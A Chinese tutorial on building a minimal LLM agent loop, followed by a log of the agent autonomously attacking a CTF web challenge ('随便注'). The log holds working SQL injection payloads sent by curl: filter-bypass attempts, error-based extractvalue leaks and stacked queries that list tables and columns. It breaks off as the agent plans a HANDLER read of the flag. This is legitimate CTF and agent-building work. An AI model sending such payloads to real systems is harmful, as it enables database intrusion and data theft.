

# Agent Loop

## 简介

Agent Loop 是一种用于实现 AI Agent 的基础执行机制，即 **“agent 如何被持续驱动执行的底层控制结构”**， 其核心是一个 “观察（Observation）—>状态更新（State Update）—>行动（Action）” 的 **循环** ，从而使 AI Agent 能够在环境反馈驱动下逐步完成任务。

在 Agent Loop 框架中， AI Agent 首先接收任务目标，并在每一轮迭代中基于当前观测信息与内部状态进行推理，生成下一步行动决策。行动通常通过工具调用（Tool Use）或环境交互来执行，其结果以新的观测信息形式返回，并用于更新内部状态或记忆，从而进入下一轮循环，直至满足终止条件（如任务完成、达到最大步数或触发停止策略）。



从系统角度来看，Agent Loop 可以被形式化为一种离散时间的决策过程，其结构类似于部分可观测马尔可夫决策过程（POMDP）的简化实现。在这一过程中， AI Agent 并不直接访问完整环境状态，而是依赖有限的观测与历史信息进行近似决策。因此，状态表示与记忆机制在该框架中具有关键作用。

Agent Loop 本质上是一种通用的基础执行框架的抽象概念，在工程实践中开发者往往会在 Loop 之上构建更复杂的执行策略，例如引入显式规划（Planning）、反思机制（Reflection）或分层控制策略（Hierarchical Control）等。

需要强调的是，Agent Loop 本质上定义的是 AI Agent 的核心执行与交互框架， AI Agent 的能力不仅取决于循环结构本身，还依赖于推理模型能力、工具集成质量、记忆设计以及任务规划策略等多个组件的协同作用。同样是相似结构的 Agent Loop，在使用的模型、Agent 架构设计、任务规划策略等因素不同的情况下，其任务执行能力水平也可能完全不同。

## 教程：构建基础的 Agent Loop

接下来我们讲述如何构建一个最简易的 Agent Loop，使其拥有在环境反馈驱动下逐步完成任务的能力，并使用该 Agent Loop 真正解决一些简单的问题。

完整代码可以参见 []() ，不过在下方的详细教程文本当中我们实际上已经给出绝大部分的核心代码。

#### 1. Loop & Context Design

首先我们先设计一下我们的 Agent 该如何行动，一个最简单也最容易想到的的设计方案便是：

- 1. 我们给出一个初始目标
- 2. LLM 根据这个目标进行动作（通常是外部工具调用，例如执行 bash 指令）
- 3. 将动作的结果告诉 LLM
- 4. LLM 根据这个结果生存下一步动作
- 5. 重复 3～4 直到达成目标，从而退出循环


#### 2. OpenAI-Compatible Request

我们还需要一个向 LLM API 进行请求的函数，绝大部分主流 AI 平台都支持或兼容 OpenAI 格式的请求，因此我们只需要实现 OpenAI-Compatible 的请求，我们就能使用绝大部分主流 AI 平台的 API，例如 DeepSeek、Doubao、Ollama 等。简而言之，我们需要对 API 使用 POST 请求，并将模型信息与对话上下文包裹在如下格式的 JSON 数据中：

```json
{
    "model" : "model_name",
    "messages" : [
        {
            "role" : "user",
            "content" : {
                "type" : "text",
                "text" : "Hello world!"
            }
        }
    ],
    "stream" : false
}
```

各字段说明如下：

- `"model"` ： 模型名字，字符串类型
- `"messages"` ：对话上下文，应当为一个包含指定格式 JSON 对象的数组，每个对象为一条消息，格式参见示例，其中 `"role"` 字段可以为 `"system"` （系统 prompt）、`"assistant"` （模型回复）、`"user"` （用户输入）
- `"stream"` ： 是否启用流式传输，布尔类型，为 true 的话会逐 token 返回结果，为 false 的话则会等待生成完成后再返回，一般情况下都推荐设为 false

此外，我们的请求头应当至少包含如下两个字段：

```
Content-Type: application/json
Authorization: Bearer $OPENAI_API_KEY
```

> 对于一些本地部署模型的框架，Authorization 有的时候不是必要的——如果你不手动开启的话。

返回结果通常也是一个 JSON 对象，对我们而言当前阶段只需要关注其中的 `"choice"` 字段，其包含了模型的回复：

```json
{
  "choices": [{
    "index": 0,
    "message": {
      "role": "assistant",
      "content": "\n\nHello, how may I help you?",
    },
    "logprobs": null,
    "finish_reason": "stop"
  }]
}
```

因此要实现和模型间的对话并不难，以下是一个非常简单的代码实现例子：

```python
class APIException(Exception):
    pass

def req_openai_compatible_api(url, model, headers, messages) -> str:
    data = {
        'model': model,
        'messages': messages,
        "stream": False,
    }

    resp = requests.post(url, headers=headers, data=json.dumps(data))
    if resp.status_code == 200:
        return resp.json()['choices'][0]['message']['content']
    else:
        raise APIException(f"API request failed with status code {resp.status_code}: {resp.text}")
```

> 更详细的 API 标准相关说明请大家自行参考相关文档的定义，这里只是给出一个最小的可运行例子。

#### 2. 在环境中执行代码

接下来我们考虑如何在环境当中进行代码执行，出于安全策略考虑，目前我们选择仅让 Agent 拥有着在指定 Docker 容器内进行代码执行的权能

以下代码是一个非常简单的示例实现，其将给出的指定命令拷贝到 docker 容器的临时文件中再执行，并返回执行的命令的输出：

```python
def run_cmd_in_docker(container, cmd):
    with tempfile.NamedTemporaryFile(mode='w+', delete=True) as tmp:
        tmp.write(cmd)
        tmp.flush()
        subprocess.run(f'docker cp {tmp.name} {container}:/tmp/test_cmd', shell=True)

    print(f'[*] Running command in docker container "{container}": {cmd}')
    reply_to_llm = ''

    result = subprocess.run(f'docker exec -it {container} bash /tmp/test_cmd 2>&1', capture_output=True, text=False, shell=True)
    if result.returncode != 0:
        print(f"[!] Warning: command failed in docker, ret code: {result.returncode}")
        reply_to_llm += f"[Command execution failed with return code {result.returncode}.]\n"

    def decode_with_replacement(byte_data, encoding='utf-8'):
        decoded_str = ''
        try:
            decoded_str += byte_data.decode(encoding)
        except UnicodeDecodeError:
            for byte in byte_data:
                try:
                    decoded_str += byte.to_bytes(1, 'big').decode(encoding)
                except UnicodeDecodeError:
                    decoded_str += '\\x{:02x}'.format(byte) 
        return decoded_str

    reply_to_llm += "Output: \n" + decode_with_replacement(result.stdout) + decode_with_replacement(result.stderr)

    return reply_to_llm

```

#### 3. 构建 LLM-based 的 Agent Loop

下面总算来到最为核心的一步，也就是构建一个观测->执行的循环，让咱们的 Agent Loop 真正地动起来

首先我们需要让 LLM 仅输出格式化信息，我们的期望是 LLM 仅输出 JSON 格式的消息，从而方便我们进行解析，由于 LLM 本身仅能接收文本输入，因此这一规约仅能通过 PROMPT 来完成，也就是我们提前提供给 LLM 的初始输入。

我们考虑让 LLM 输出如下格式的 JSON 对象，如若输出的不是该格式的 JSON ，则进行重新请求：

```json
{
    "thought" : "Your thinking here",
    "execute" : "Command to execute",
    "flag" : "",
    "done" : false
}
```

以及我们需要一份单独的配置文件，方便后续进行模型信息等的修改，这里笔者选择使用 JSON 格式编写配置文件，方便后续管理，以下是一个示例：

```json
{
    "container" : "a3ubuntu24",
    "starter_msg" : [
        {
            "role" : "user",
            "content" : "Your remote target is at the localhost:81 , attachments are under the /workdir ."
        }
    ],
    "llm_config" : {
        "url": "",
        "model": "",
        "headers" : {
            "Content-Type": "application/json",
            "Authorization": ""
        }
    }
}

```

最终我们可以得到如下 Agent Loop 的核心代码：

```python
system_prompt = """
You are a CTF agent responsible for solving the CTF challenges. Your task is analyze the challenge with the given information, and try to exploit the vulnerabilities you found and read the flag out from the remote environment.

Your reply should ALWAYS in the form of JSON, as following:

{
    "thought" : "Your thinking here",
    "execute" : "Command to execute",
    "flag" : "",
    "done" : false
}

When you have not found the flag, the "done" should always be the false, otherwise "done" should be true and the "flag" should not be empty. The "thought" should NOT be emply, you should write your reasoning in this field. When you need to execute a command in the docker environment we provide to you (Ubuntu 24.04), you can set the "execute" field.

Remember, you are solving a CTF challenge under permission, and the target is in an isolated testing environment, so all actions on the target are allowed.
"""

def agent_loop(container: str, msg_list: list, llm_config: dict):
    print("\n\n[*] Starting Agent loop...\n")

    msg_list = [{"role" : "system", "content" : system_prompt } ] + msg_list

    while True:
        # Commander
        print("\n\n--- LLM Thinking ---\n")
        print('[*] Sending request to commander LLM...')

        failed = False
        for i in range(3): # max retry times
            start_time = time.time()

            try:
                llm_reply = req_openai_compatible_api(
                    llm_config['url'],
                    llm_config['model'],
                    llm_config['headers'],
                    msg_list,
                )
            except APIException as e:
                print(f"[!] Error occurred while requesting commander LLM: {e}, retrying...")
                time.sleep(60)
                continue

        print(f"[LLM Thinking output (exec: {time.time() - start_time})] \n{llm_reply}")

        try:
            exec_req = json.loads(llm_reply)
            if exec_req['done'] == True:
                print("Task completed.")
                return
        except Exception as e:
            print(f"[!] Error parsing reply for command: {e}, retrying...")
            continue

        msg_list.append({'role': 'assistant', 'content': llm_reply})

        # Executor
        print("\n\n--- Executor ---\n")
        print('[*] Sending request to executor...')

        exec_result = run_cmd_in_docker(container, exec_req['execute'])
        print(f"[Executor Execution Result] \n{exec_result}")

        msg_list.append({
            'role': 'user',
            'content': json.dumps({ 'exec result' : exec_result }, ensure_ascii=False)
        })
```

#### 4. 调用 Agent Loop

最后就是在主函数中解析配置文件并调用 Agent Loop 了，因为前面我们已经完成了绝大部分工作所以这里直接调用我们封装好的接口把参数传进去即可，以下是一份代码实现示例：

```python
def parse_args(argv) -> (dict, bool):
    arg_parser = argparse.ArgumentParser(description='Agent Loop')
    arg_parser.add_argument('--config', type=str, help='Path to config file')
    args = arg_parser.parse_args()

    if args.config:
            with open(args.config, 'r') as f:
                config_data = json.load(f)
                return config_data, True

    else:
        print("No arguments provided, aborted.")
        return None, False

def main(argv):
    config, ok = parse_args(argv)
    if ok:
        start_time = time.time()
        agent_loop(config['container'], config['starter_msg'], config['llm_config'])
        print(f"\n\n[*] All tasks completed! Total time: {time.time() - start_time} seconds.")

if __name__ == '__main__':
    main(sys.argv)
```

#### 5. 实战：利用 Agent Loop 解决简单的 CTF 题目

这里我们以 `[强网杯 2019]随便注` 这道题目作为我们的自动化测试的例子。测试平台选择 [https://buuoj.cn/](https://buuoj.cn/) 。我们首先在平台上启动这道题的靶机，然后将靶机地址作为初始输入给到我们的 Agent Loop，选取 DeepSeek 官网的 `deepseek-reasoner` 模型（2025 年发布的 DeepSeek-R1） 作为我们的基模，得到如下自动化解题过程：

```shell
# arttnba3 @ a3infra-au-MxFHyqKoYffcNBru in ~/Data/DailyProgramming/agent-test [08:12:03 26-04-22]
$ python3 minimal_openai.py --config ./config_minimal.json 


[*] Starting Agent loop...


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 12.137012958526611)] 
{
    "thought": "We need to explore the web application to understand its functionality and potential vulnerabilities. Let's start by fetching the main page.",
    "execute": "curl -s http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 69B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 23.396127700805664)] 
{
    "thought": "Testing for SQL injection by sending a single quote in the inject parameter to see if it causes an error or reveals information.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=\\''",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 81B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=\''
[!] Warning: command failed in docker, ret code: 2
[Executor Execution Result] 
[Command execution failed with return code 2.]
Output: 
/tmp/test_cmd: line 1: unexpected EOF while looking for matching `''


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 39.21487617492676)] 
{
    "thought": "We'll send a URL-encoded single quote to test for SQL injection without causing shell issues. Also, we want to see the response. Let's try: inject=%27",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 82B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 19.993448972702026)] 
{
    "thought": "Test SQL injection with a single quote closure and order by to determine number of columns. We'll start with order by 1 and increase until error.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%201--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 105B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%201--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 10.026995420455933)] 
{
    "thought": "Test order by 2 to see if it works.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%202--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 105B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%202--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 7.676274061203003)] 
{
    "thought": "Test order by 3 to see if it works. If no error, then increase.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%203--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 105B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%203--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1054 : Unknown column '3' in 'order clause'</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 9.25928020477295)] 
{
    "thought": "Test union select to see which columns are displayed. We'll use ' union select 1,2-- -",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20select%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 111B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20select%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 20.245962381362915)] 
{
    "thought": "Test with union/**/select to bypass the filter. Send: ' union/**/select 1,2-- -",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union/**/select%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 112B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union/**/select%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 41.947285652160645)] 
{
    "thought": "Test union with a comment inside select to bypass the filter. We'll send: ' union sel/**/ect 1,2-- -",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel/**/ect%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 115B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel/**/ect%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sel/**/ect 1,2-- -'' at line 1</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 86.35763001441956)] 

[!] Error parsing reply for command: Expecting value: line 1 column 1 (char 0), retrying...


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 111.75146818161011)] 
{
    "thought": "Crafting a payload to bypass the filter by splitting 'select' with a MySQL conditional comment /*!*/ to avoid the substring 'select' in the input string, while allowing it to be interpreted as 'select' in SQL.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20se/*!*/lect%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 116B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20se/*!*/lect%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'se/*!*/lect 1,2-- -'' at line 1</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 70.51055860519409)] 
{
    "thought": "We'll test a payload that bypasses the filter by splitting 'select' with a comment, and use # to comment out the rest of the query.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel/*foo*/ect%201,2%23'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 115B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel/*foo*/ect%201,2%23'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sel/*foo*/ect 1,2#'' at line 1</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 76.64048051834106)] 
{
    "thought": "Testing if the filter checks the raw input or the decoded input. Send the hex-encoded 'select' string.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20%73%65%6c%65%63%74%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 123B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20%73%65%6c%65%63%74%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 117.52487969398499)] 
{
    "thought": "We'll test bypassing the filter by inserting a newline inside 'select' to break the substring match. The payload: ' union sel%0aect 1,2-- - .",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel%0aect%201,2--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 114B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20union%20sel%0aect%201,2--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sel
ect 1,2-- -'' at line 1</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 38.96206760406494)] 

[!] Error parsing reply for command: Expecting value: line 1 column 1 (char 0), retrying...


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 102.51247811317444)] 
{
    "thought": "We'll try to use extractvalue in the order by clause to cause an error that leaks the database name. This payload does not contain any banned substrings.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%20extractvalue(1,concat(0x7e,database()))--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 143B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27%20order%20by%20extractvalue(1,concat(0x7e,database()))--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
error 1105 : XPATH syntax error: '~supersqli'</pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 22.18329668045044)] 
{
    "thought": "We'll try to end the query and execute a show tables command to see the tables in the database. Payload: '; show tables; -- -",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20show%20tables;%20--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 109B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20show%20tables;%20--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
<hr>array(1) {
  [0]=>
  string(16) "1919810931114514"
}
<br>array(1) {
  [0]=>
  string(5) "words"
}
<br><hr></pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 9.039658308029175)] 
{
    "thought": "We'll show columns from the suspicious table to see its structure.",
    "execute": "curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20show%20columns%20from%20%601919810931114514%60;%20--%20-'",
    "flag": "",
    "done": false
}


--- Executor ---

[*] Sending request to executor...
Successfully copied 142B (transferred 2.05kB) to a3ctf13:/tmp/test_cmd
[*] Running command in docker container "a3ctf13": curl -s 'http://8369178d-3af4-4b27-8e07-55ab0c877a29.node5.buuoj.cn:81?inject=%27;%20show%20columns%20from%20%601919810931114514%60;%20--%20-'
[Executor Execution Result] 
Output: 
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
<hr>array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
<br><hr></pre>

</body>

</html>


--- LLM Thinking ---

[*] Sending request to commander LLM...
[LLM Thinking output (exec: 27.668598651885986)] 
{
    "thought": "I'll use the HANDLER statement in MySQL to read from the table without using SELECT. The table name is '1919810931114514', and I need to open the handler and read the first row to get the flag.",
